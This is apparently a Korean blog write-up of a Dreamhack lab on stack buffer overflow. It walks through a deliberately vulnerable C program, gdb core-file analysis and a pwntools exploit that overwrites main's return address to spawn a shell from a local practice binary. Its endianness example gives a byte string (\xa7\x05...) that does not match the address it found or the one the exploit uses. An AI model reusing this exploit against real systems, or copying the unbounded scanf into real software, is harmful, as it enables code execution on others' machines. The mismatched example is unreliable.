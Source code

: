 ## 실습 코드

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};
  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];
  
  init();
  printf("Input: ");
  scanf("%s", buf);
  
  return 0;
}
```

<br>
<br>

## 1. 분석

### 취약점 분석

main함수에서 `scanf("%s", buf)` 를 보면 입력 길이에 제한 없이 입력을 받고 있습니다. 그래서 오버플로우 공격이 가능합니다.

크기가 0x28 바이트인 버퍼에 입력을 받고 있기 때문에, 0x28 바이트 이상의 데이터를 입력하면 버퍼 오버플로우를 발생시켜서 main 함수의 반환 주소를 덮을 수 있습니다.

C++의 표준함수 중 취약한 함수에는 대표적으로 `strcpy, strcat, sprintf, scanf` 등이 있습니다.

<br>

### 트리거

발견한 취약점을 확인하는 행위

#

"A"를 5개 입력해보면

```bash
$ ./rao
Input: AAAAA
$
```

프로그램이 정상적으로 종료되었습니다.

#

이번에는 "A"를 64개 입력해보면

```bash
$ ./rao
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

전과 달리 Segmentation fault라는 에러가 출력되며, 프로그램이 비정상적으로 종료되었습니다.

프로그램이 잘못된 주소에 접근했다는 의미이고 버그가 발생했다는 의미입니다.

추가적으로 (core dumped)라는 메시지와 함께 코어 파일이 생성되었는데, 프로그램이 비정상적으로 종료되었을 때 디버깅을 돕기 위한 것입니다.

<br>

### 코어 파일 분석

gdb에는 코어 파일을 분석하는 기능이 있어서 입력이 스택에 어떻게 들어갔는지 확인할 수 있고 쉘을 획득하기 위한 계획을 세울 수 있습니다.

#

 gdb로 코어 파일을 열어보면

```bash
$ gdb -c core -q
[New LWP 52]
Core was generated by `./rao'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x0000000000400729 in ?? ()
```

프로그램의 종료 원인과 어떤 주소의 명령어를 실행하다가 문제가 발생했는지 보여줍니다.

<br>

```bash
gdb-peda$ x/10s $rsp
0x7ffe429d4968: "AAAAAAAA"
0x7ffe429d4971: ""
0x7ffe429d4972: ""
0x7ffe429d4973: ""
0x7ffe429d4974: ""
0x7ffe429d4975: ""
0x7ffe429d4976: ""
0x7ffe429d4977: ""
0x7ffe429d4978: "HJ\235B\376\177"
0x7ffe429d497f: ""
```

스택을 관찰해보면 입력값 중 일부인 AAAAAAAA가 rsp가 가리키는 곳에 저장되어 있습니다.


<br>
<br>

## 2. 익스플로잇

#

### 스택 프레임 구조 파악

스택 버퍼에 오버플로우를 발생시켜서 반환 주소를 덮으려면, 우선 해당 버퍼가 스택 프레임의 어디에 위치하는지 조사해야 합니다.

```bash
// main()
   0x000000000040070b <+35>:    lea    rax,[rbp-0x30]
   0x000000000040070f <+39>:    mov    rsi,rax
   0x0000000000400712 <+42>:    lea    rdi,[rip+0xab]        # 0x4007c4
   0x0000000000400719 <+49>:    mov    eax,0x0
   0x000000000040071e <+54>:    call   0x400570 <__isoc99_scanf@plt>
   0x0000000000400723 <+59>:    mov    eax,0x0
   
gdb-peda$ x/s 0x4007c4
0x4007c4:       "%s"
```

main의 어셈블리 코드에서 scanf 부분을 의사 코드로 표현해보면 `scanf("%s", rbp-0x30)` 가 됩니다.

#

스택 구조를 그려서 파악을 해보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/d399c0be-c3da-45dd-8e1a-eeb45f5d97a7/image.png">


buf와 return address 사이에 0x38만큼 떨어져 있기 때문에, 0x38 만큼 쓰레기 값으로 채우고 실행하고자 하는 코드의 주소를 입력하면 실행 흐름을 조작할 수 있습니다.

<br>

### get_shell() 주소 확인

```c
void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};
  execve(cmd, args, NULL);
}
```

쉘을 실행시켜주는 `get_shell()` 함수가 있기 때문에, `main` 함수의 반환 주소를 `get_shell()` 함수의 주소로 덮으면 쉘을 획득할 수 있습니다.

#

gdb로 `get_shell()` 함수의 주소를 찾아보면

```bash
gdb-peda$ print get_shell
$1 = {<text variable, no debug info>} 0x4006aa <get_shell>
```

`0x4006aa` 가 `get_shell` 함수의 주소입니다.

<br>

### 페이로드 구성

시스템 해킹에서 페이로드는 공격을 위해 전달하는 데이터를 의미합니다.

익스플로잇을 위해 페이로드를 구성해보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/bc69163f-e14b-4de7-a523-22d033225886/image.png">

<br>

### 엔디언 적용

페이로드는 적절한 엔디언을 적용해서 프로그램에 전달해야 합니다.
엔디언은 메모리에서 데이터가 정렬되는 방식으로 리틀 엔디언과 빅 엔디언이 사용됩니다.

MSB(Most Significant Byte) : 가장 왼쪽 바이트
리틀 엔디언: MSB가 가장 높은 주소에 저장됩니다.
빅 엔디언: MSB가 가장 낮은 주소에 저장됩니다.

`0x12345678`
리틀 엔디언 → 78 56 34 12
빅 엔디언 → 12 34 56 78

인텔 x86-64아키텍쳐는 리틀 엔디언을 사용하기 때문에, `get_shell` 함수의 주소는 `“\xa7\x05\x40\x00\x00\x00\x00\x00”`로 변환해서 전달해줘야 합니다.

<br>

### 익스플로잇

```python
from pwn import *

p = process('./rao')

payload = b"A"*0x30
payload += b"B"*0x8
payload += b"\xaa\x06\x40\x00\x00\x00\x00\x00"

p.recvuntil('Input: ')

p.sendline(payload)
p.interactive()
```

익스플로잇 코드를 짜서 공격을 해보면

#

```bash
$ python3 exploit.py
[+] Starting local process './rao': pid 629
[*] Switching to interactive mode
$
```

공격에 성공해서 쉘을 흭득하였습니다.

#

---

<br>

> [Exploit Tech: Return Address Overwrite
](https://dreamhack.io/lecture/courses/58)
